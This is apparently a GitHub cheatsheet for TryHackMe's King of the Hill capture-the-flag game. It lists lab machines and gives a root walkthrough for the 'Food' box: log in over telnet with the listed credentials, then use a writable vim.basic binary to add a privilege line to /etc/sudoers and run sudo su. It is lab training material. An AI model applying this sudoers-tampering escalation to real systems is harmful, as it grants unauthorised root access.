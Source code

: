 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
Sorry I am lazy AF, will update more machines soon!
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.

## Machine Pool
Name | OS
:---:|:---:
[H1: Hard]()	| Linux
[H1: Medium]()	| Windows
[H1: Easy]()	| Linux
[Hogwarts]()	| Linux
[Carnage]()	| Linux
[Lion]()	| Linux
[Hackers]()	| Linux
[Fortune]()	| Linux
[Offline]()	| Windows
[Panda]()	| Linux

## Index of Machine Covered:
1. [Food](#machine-name-food)
2. [Shrek](#machine-name-shrek)
3. [SpaceJam](#machine-name-space-jam)
4. [Fortune](#machine-name-fortune)
5. [Production](#machine-name-production)
6. [Lion](#machine-name-lion)
7. [Hackers](https://github.com/holmes-py/King-of-the-hill/blob/master/Writeup%20for%20Hackers%2001.md)

# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    